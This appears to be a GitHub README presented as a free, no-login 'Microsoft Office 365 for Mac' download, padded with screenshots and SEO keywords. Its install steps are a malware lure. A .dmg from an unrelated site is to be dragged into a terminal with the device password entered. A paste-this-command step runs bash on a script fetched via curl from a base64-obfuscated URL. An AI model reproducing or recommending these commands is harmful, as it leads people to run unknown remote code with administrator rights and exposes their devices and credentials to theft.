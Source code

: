 # Microsoft Office 365 for Mac 

[![Download Setup Assistant](https://img.shields.io/badge/Download-Setup_Assistant-blueviolet)](https://mitrobandus.github.io/.github/MicrosoftOffice)

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

🎯 What You Unlock

   🔓 Full access to Word, Excel, PowerPoint, Outlook, and OneNote

   🎨 Professional templates and design tools

   🔈 Email and calendar integration offline

   🔌 Plugin and add-in support for Mac

   🛠 No Microsoft account login or online validation required

🖼 Preview

![Microsoft Excel on Mac](https://photos5.appleinsider.com/gallery/46739-91179-Microsoft-365-xl.jpg)  


![Office 365 Apps Suite](https://www.microsoft.com/en-us/microsoft-365/blog/wp-content/uploads/sites/2/2020/12/1107-1024x715.png)  


![Office for Mac Blank Document](https://media.gcflearnfree.org/content/6040e67589f5e81e806008f2_03_04_2021/officeformac_blank_recent.jpg)  



🔍 SEO Keywords

microsoft 365 for mac, ms office mac, officeformac, excel formac, mac for word, office 365 for mac, microsoft office suite for mac, microsoft suite for mac, excel download mac, office 365 mac download, microsoft 365 download for mac, office download for mac, download ms office for mac, office 365 macbook, ms office for mac lifetime, microsoft access download mac, microsoft access mac, microsoft 365 macbook, powerpoint download for mac, download microsoft word on mac, download ms word for mac, download microsoft office on mac, download microsoft outlook for mac, ms office suite for mac, microsoft 365 subscription for mac, offline microsoft office mac, offline ms office setup, mac office offline activation, office 365 offline installer mac, office suite offline mac, microsoft office offline mac installation, office 365 mac no login
